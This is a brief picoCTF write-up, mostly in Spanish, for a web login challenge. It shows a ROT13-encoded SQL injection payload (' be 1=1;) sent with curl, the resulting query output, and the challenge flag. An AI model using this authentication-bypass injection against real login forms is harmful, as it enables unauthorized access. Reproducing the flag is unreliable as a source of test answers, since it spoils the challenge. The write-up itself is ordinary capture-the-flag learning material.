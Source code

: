 ## Objetivo

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
## Solución

Es necesario rotarlo a 13 ya que el password lo que hace internamente es rotarlo asi que fon la ayuda del cyberchef podemos mandarselo rotado.

Entrada ya rotada
' be 1=1;

En consola
```
czarragar-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/54253/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>czarragar-picoctf@webshell:~$ 
```


```
picoCTF{3v3n_m0r3_SQL_7f5767f6}
```

## Notas adicionales

## Referencias


